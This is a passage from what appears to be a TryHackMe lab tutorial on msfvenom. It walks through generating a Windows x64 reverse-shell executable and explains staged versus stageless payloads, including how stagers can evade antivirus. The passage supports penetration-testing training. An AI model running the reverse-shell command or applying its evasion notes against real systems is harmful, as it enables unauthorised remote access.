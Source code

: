 # msfvenom

The standard syntax for msfvenom is as follows:

msfvenom -p

For example, to generate a Windows x64 Reverse Shell in an exe format, we could use:

msfvenom -p windows/x64/shell/reverse\_tcp -f exe -o shell.exe LHOST= LPORT=

Here we are using a payload and four options: -f Specifies the output format. In this case that is an executable (exe) -o The output location and filename for the generated payload. LHOST= Specifies the IP to connect back to. When using TryHackMe, this will be your tun0 IP address. If you cannot load the link then you are not connected to the VPN. LPORT= The port on the local machine to connect back to. This can be anything between 0 and 65535 that isn't already in use; however, ports below 1024 are restricted and require a listener running with root privileges.

Staged vs Stageless

Before we go any further, there are another two concepts which must be introduced: staged reverse shell payloads and stageless reverse shell payloads.

Staged payloads are sent in two parts. The first part is called the stager. This is a piece of code which is executed directly on the server itself. It connects back to a waiting listener, but doesn't actually contain any reverse shell code by itself. Instead it connects to the listener and uses the connection to load the real payload, executing it directly and preventing it from touching the disk where it could be caught by traditional anti-virus solutions. Thus the payload is split into two parts -- a small initial stager, then the bulkier reverse shell code which is downloaded when the stager is activated. Staged payloads require a special listener -- usually the Metasploit multi/handler, which will be covered in the next task. Stageless payloads are more common -- these are what we've been using up until now. They are entirely self-contained in that there is one piece of code which, when executed, sends a shell back immediately to the waiting listener. Stageless payloads tend to be easier to use and catch; however, they are also bulkier, and are easier for an antivirus or intrusion detection program to discover and remove. Staged payloads are harder to use, but the initial stager is a lot shorter, and is sometimes missed by less-effective antivirus software. Modern day antivirus solutions will also make use of the Anti-Malware Scan Interface (AMSI) to detect the payload as it is loaded into memory by the stager, making staged payloads less effective than they would once have been in this area.
